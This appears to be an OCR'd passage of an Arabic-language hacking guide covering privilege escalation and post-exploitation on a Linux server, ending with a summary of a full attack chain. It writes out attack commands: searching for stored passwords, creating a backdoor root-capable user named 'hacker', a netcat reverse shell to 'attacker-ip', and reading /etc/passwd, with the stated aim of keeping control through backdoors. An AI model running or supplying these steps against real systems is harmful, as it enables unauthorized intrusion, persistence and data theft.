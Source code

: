 
### **4️⃣ الحصول على صلاحيات أعلى (Privilege Escalation)**

✅ **البحث عن كلمات مرور مخزنة:**

```bash
find / -name "*.config" 2>/dev/null
```

✅ **محاولة كسر كلمة مرور مستخدم Root:**

```bash
sudo -l
```

✅ **استغلال Kernel Exploits:**

```bash
searchsploit linux kernel privilege escalation
```

---

### **5️⃣ السيطرة الكاملة على السيرفر (Post-Exploitation)**

✅ **إضافة مستخدم جديد بصلاحيات Root:**

```bash
useradd -m -p $(openssl passwd -1 newpassword) hacker
usermod -aG sudo hacker
```

✅ **عمل Backdoor للاستمرار في التحكم:**

```bash
nc -e /bin/bash attacker-ip 4444
```

✅ **استخراج البيانات الحساسة:**

```bash
cat /etc/passwd
```

---

### **🚀 الخلاصة النهائية:**

1️⃣ **ابدأ بجمع المعلومات عن الموقع باستخدام `subfinder` و `gobuster`**  
2️⃣ **افحص المنافذ والثغرات باستخدام `nmap` و `sqlmap`**  
3️⃣ **حاول استغلال الثغرات باستخدام `Metasploit` أو تحميل Shell**  
4️⃣ **ابحث عن طرق للحصول على صلاحيات أعلى في السيرفر**  
5️⃣ **حافظ على التحكم في السيرفر باستخدام Backdoors**

🔥 **كده معاك دليل كامل لـ `rpcclient` + Web Pentesting!** 💀💻